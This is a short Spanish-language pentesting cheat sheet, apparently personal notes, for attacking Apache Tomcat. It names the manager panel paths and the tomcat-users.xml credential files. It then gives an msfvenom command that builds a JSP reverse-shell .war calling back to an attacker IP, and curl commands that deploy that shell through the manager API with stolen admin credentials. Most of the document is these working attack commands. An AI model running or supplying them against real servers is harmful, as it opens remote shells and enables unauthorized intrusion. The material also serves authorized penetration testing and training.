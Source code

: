 # Tomcat 

Tags: #Tomcat #Windows

## Ruta en la web

```bash 
/manager/html                              # Ruta tipica que contiene un panel de autenticacion en donde se encuentra el panel de admin en Tomcat 
/host-manager/html                         # Ruta alternativa 
```

## Ruta en consola

```bash 
/etc/tomcat9/tomcat-users.xml              # Archivo que contiene usuarios y sus passwd
/usr/share/tomcat9/etc/tomcat-users.xml    # Ruta alternativa
```

## Crear una aplicación para subirla desde el panel Tomcat  

```bash 
# En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o shell.war # Creamos nuestro archivo malicioso .war 

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato war
	# o = Exportar como 'shell.war'
```

## Subir una aplicación desde la consola con credenciales validas de 'admin'

```bash 
❯ curl -s -u 'username:passwd' -X GET "http://IP/manager/text/list"    # Listar aplicaciones existentes en Tomcat si tenemos credenciales validas 

❯ curl -s -u 'username:passwd' "http://IP/manager/text/deploy?path=/shell" --upload-file shell.war  # Desplegar la aplicacion creada anteriormente 
```